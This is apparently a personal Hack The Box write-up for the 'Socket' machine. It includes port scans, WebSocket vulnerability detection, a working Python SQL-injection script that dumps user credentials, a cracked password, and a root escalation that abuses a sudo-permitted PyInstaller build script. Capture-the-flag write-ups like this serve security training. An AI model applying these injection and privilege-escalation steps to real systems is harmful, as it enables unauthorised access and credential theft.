 ─$ nmap 10.10.11.206
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 23:42 EDT
Nmap scan report for 10.10.11.206
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 56.56 seconds
                                                        
it says that it is made with flask

use stews 

python3 STEWS-vuln-detect.py http://10.10.11.206

![](20230712075738.png)

so  5789 oirt us also open

 10.10.11.206 

 nmap showed 22 80 and there is one more higher port

 python3 vuln_detect.py -1 -n -u 10.10.11.206:5789


 python3 vuln_detect.py -1 -n -u 10.10.11.206:5789
   Testing ws://10.10.11.206:5789
>>>Note: ws://10.10.11.206:5789 allowed http or https for origin
>>>Note: ws://10.10.11.206:5789 allowed null origin
>>>Note: ws://10.10.11.206:5789 allowed unusual char (possible parse error)
>>>VANILLA CSWSH DETECTED: ws://10.10.11.206:5789 likely vulnerable to vanilla CSWSH (any origin)
====Full list of vulnerable URLs===
['ws://10.10.11.206:5789']
['>>>VANILLA CSWSH DETECTED: ws://10.10.11.206:5789 likely vulnerable to vanilla CSWSH (any origin)']

```

[+] Processing qreader
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 108535118 bytes
[+] Found 305 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_pyqt5.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: qreader.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: qreader

You can now use a python decompiler on the pyc files within the extracted directory

```
after looking into the source code we can find the exploit

```
from websocket import create_connection
import json
ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.3" UNION SELECT username,password,"3","4" from users;-- -'
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```

python3 exploit_socket.py
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": "3", "downloads": "4"}}

cracking it in crackstation
	denjanjade122566
                     
the admin is somehow tkeller


tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh


running linpeas.sh

Proc 1305 with ppid 1263 is run by user svc but the ppid user is root
Proc 1306 with ppid 1263 is run by user svc but the ppid user is root
Proc 1959 with ppid 1 is run by user tkeller but the ppid user is root
Proc 2066 with ppid 1956 is run by user tkeller but the ppid user is root

tkeller@socket:~$ ps -aux | grep 1305
svc         1305  0.0  1.7 385300 70292 ?        Ssl  05:42   0:02 python3 /var/www/main/main.py
tkeller    22305  0.0  0.0   6476  2436 pts/0    S+   07:31   0:00 grep --color=auto 1305
tkeller@socket:~$ ps -aux | grep 1306
_laurel      776  0.0  0.2  13064  8948 ?        S<   05:42   0:04 /usr/local/sbin/laurel --config /etc/laurel/config.toml
svc         1306  0.0  0.5  32540 23348 ?        Ss   05:42   0:00 python3 /var/www/ws_server/server.py
tkeller    22307  0.0  0.0   6608  2476 pts/0    S+   07:31   0:00 grep --color=auto 1306

```
tkeller@socket:~$ echo 'import os;os.system("/bin/bash")' > root.spec
tkeller@socket:~$ ls
linpeas.sh  root.spec  snap  user.txt
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build root.spec
123 INFO: PyInstaller: 5.6.2
123 INFO: Python: 3.10.6
126 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
129 INFO: UPX is not available.
root@socket:/home/tkeller# cat /root/root.tx
cat: /root/root.tx: No such file or directory
root@socket:/home/tkeller# cat /root/root.txt
7173a098ec93374dce2059554c8cd749
```

https://www.hackthebox.com/achievement/machine/256742/535